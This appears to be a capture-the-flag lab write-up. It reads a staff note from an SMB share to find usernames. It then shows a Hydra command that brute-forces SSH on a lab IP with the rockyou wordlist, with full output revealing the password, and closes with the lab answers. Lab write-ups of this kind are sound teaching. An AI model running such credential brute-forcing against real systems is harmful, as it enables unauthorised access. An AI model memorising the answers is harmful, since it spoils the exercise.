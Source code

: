 In smb there is one interesting file called `staff.txt`, which might be used as a clue.

```
riz@kali:~$ cat staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Aight, the contents of the file stated that there were 2 users, related from before, it turned out that j was `jan` and k was `kay`.

---

### • User brute-forcing to find the username & password

> _No answer needed_

```
riz@kali:~$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.215.114 -f
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-22 20:31:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.215.114:22/
[STATUS] 111.00 tries/min, 111 tries in 00:01h, 14344289 to do in 2153:48h, 15 active
[STATUS] 105.33 tries/min, 316 tries in 00:03h, 14344084 to do in 2269:39h, 15 active
[22][ssh] host: 10.10.215.114   login: jan   password: armando
[STATUS] attack finished for 10.10.215.114 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-22 20:35:26
```

We got 1 valid password found, the username is `jan` and the password is `armando`

---

### • What is the username?

> jan

---

### • What is the password?

> armando

---